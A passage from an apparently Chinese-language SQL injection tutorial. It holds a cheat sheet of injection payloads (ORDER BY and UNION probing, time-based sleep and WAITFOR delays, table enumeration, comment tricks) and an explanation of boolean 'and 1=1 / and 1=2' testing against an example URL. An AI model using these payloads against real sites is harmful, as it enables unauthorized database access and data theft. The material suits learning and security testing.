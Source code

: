 ```
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator
@variable	local variable
@@variable	global variable
# Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
Finding the table name
Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
Comments:
#	    Hash comment
/*  	C-style comment
-- -	SQL comment
;%00	Nullbyte
`	    Backtick
```

**2.1.2、基于误差的判断方法**<br />在大多数时候Web服务器关闭了错误回显，导致无法判断构造的SQL攻击语句是否成功执行，这时就可以使用基于误差的判断方法来进行判断。

设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`select aaa,bbb,ccc from tests where id = $id  `

当我们输入`http://xmtxsec.top/test.php/?id=1 and 1=2`<br />执行的SQL语句为：`select aaa,bbb,ccc from tests where id = 1 and 1=2`<br />**分析：**`and 1=2`永远为假，所以这条SQL语句的`and`条件永远无法成立。返回的页面结果将为空或者是一个出错页面，无法判断是否存在注入。

这时可以继续输入：`http://xmtxsec.top/test.php/?id=1 and 1=1`<br />执行的SQL语句为：`select aaa,bbb,ccc from tests where id = 1 and 1=1`<br />**分析：** `id = 1 and 1=1`永远为真，如果页面正常返回了，则说明SQL语句的`and`成功执行，那么就可以判断`id`参数存在SQL注入漏洞。
